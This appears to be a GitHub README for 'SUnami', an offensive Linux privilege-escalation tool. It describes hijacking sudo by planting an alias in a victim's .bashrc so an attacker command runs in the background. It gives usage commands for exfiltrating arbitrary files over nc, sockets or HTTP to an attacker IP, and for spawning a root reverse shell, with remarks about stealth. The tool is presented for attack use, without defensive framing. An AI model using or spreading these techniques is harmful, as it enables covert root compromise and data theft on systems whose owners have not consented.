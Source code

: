# SUnami
 Struggling with linux priveledge escelation? well then its time to cheese it with SUnami.  
 0 interaction privesc is always recommended but not always achievable. For this reason we have created a tool for the most trivial priv esc in history (with a few drawbacks).  
 This is not an exploit just a cheap but effective trick. The usecase is when you have a shell on a sudoers account but no sudo cred.  
 It works by manipulating sudo via aliasing in their .bashrc file to prepend a malicious attacker specified command first in the background.  
 This does mean you will need to wait for sudo to be executed.  
 flags denoted with -- are required. with - optional.  
 the -local flag denotes that you want sunami to modify the .bashrc file on the current machine instead of producing output (not suggested for stealth reasons).
 

# File Exfiltration
I used passwd so as not to leak my hash for this demo but rest assured you can read whatever file you wish
![image](https://github.com/witchdocsec/SUnami/assets/107813117/a7f26322-5fca-4030-9725-13dc5a02ac44)  
## useage:
  python3 sunami.py exfilfile [-local {1,0}] [--file FILE] [--method {postflask,nc,pysocket}] [--ip IP] [--port PORT]
# Root Shell
![image](https://github.com/witchdocsec/SUnami/assets/107813117/06000a59-b7da-45f3-8258-89618aa02a1f)
## useage:
  sunami.py genshell [-local {1,0}] [--ip IP] [--port PORT] [-shell SHELL] [-protocol PROTOCOL] [-listen {1,0}]
  
  
